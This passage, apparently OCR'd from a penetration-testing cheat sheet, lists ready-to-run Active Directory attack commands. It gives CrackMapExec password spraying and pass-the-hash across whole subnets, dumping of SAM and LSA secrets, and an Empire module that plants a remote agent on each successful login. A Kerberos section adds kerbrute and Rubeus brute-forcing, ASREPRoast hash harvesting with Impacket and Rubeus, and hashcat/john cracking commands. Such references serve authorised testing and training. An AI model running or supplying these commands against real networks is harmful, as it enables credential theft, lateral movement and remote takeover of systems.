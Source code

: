 ```
    -   Spray the network with local login credentials then dump SAM
        contents
-   crackmapexec smb 10.0.0.1/24 -u administrator -H <hash> --local-auth --lsa

    -   Pass the hash network-wide, local login, dump LSA contents
-   crackmapexec smb 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test

    -   Requires Empire Restful API to be running. It will spray supply
        credentials and pop an empire agent on any successful login.
        Read more
        [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Getting-Shells-101)

# Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```
